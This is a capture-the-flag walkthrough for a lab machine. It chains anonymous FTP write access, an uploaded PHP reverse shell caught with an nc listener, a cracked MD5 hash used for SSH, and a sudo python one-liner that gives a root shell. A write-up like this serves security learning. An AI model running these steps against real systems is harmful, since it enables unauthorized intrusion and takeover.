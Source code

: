 We start with a scan: **nmap -A -sC ip**
We see an Apache server and an FTP server. It is possible to enter ftp with **user anonymous**, without a password.
![nmap](images/1)

Going to the Browser *http://ip_target* we see a default Apache page, there is a comment in the source code.
![browser](images/2)

Using **gobuster**, we discovered a hidden directory, with a file called CALL.txt
![gobuster](images/3)

Now we will go to *FTP*
![ftp, anonymous](images/4)

With **ls -la** we see that we can * write to the FTP directory * and that it is the same folder where the CALL.txt file is located.
We can use /usr/share/webshells/php/php-reverse-shell.php
We just need to change the ip and port before uploading to FTP

![php-reverse-shell](images/5)

We will send php-reverse-shell.php to the victim via ftp -> ** put xx/php-reverse-shell.php **
![put_php-reverse-shell](images/6)

Let's open ¹**nc -lnvp 1234** by listening and go to the ?browser to open ³php-reverse-shell.php
![nc](images/7)
![browser](images/8)
![conexão](images/9)

We found the 1st flag in /home/shrek/user.txt
![flag1](images/10)
In / home, we see an important.txt file, pointing to "/.runme.sh"
![runme.sh](images/11)

Analyzing ¹hash, it is an MD5, we see that it is possibly the credential for ²SSH and also the secret key
https://www.tunnelsup.com/hash-analyzer/
https://crackstation.net/

![shrek:hash](images/12)
![ssh](images/13)

By providing sudo -l, we can run python with sudo without a password. Going to https://gtfobins.github.io/gtfobins/python/#sudo, we see a way to get a privileged shell.

![sudo-l](images/14)
'''
sudo python -c 'import os; os.system("/bin/sh")'
'''

![root](images/15)



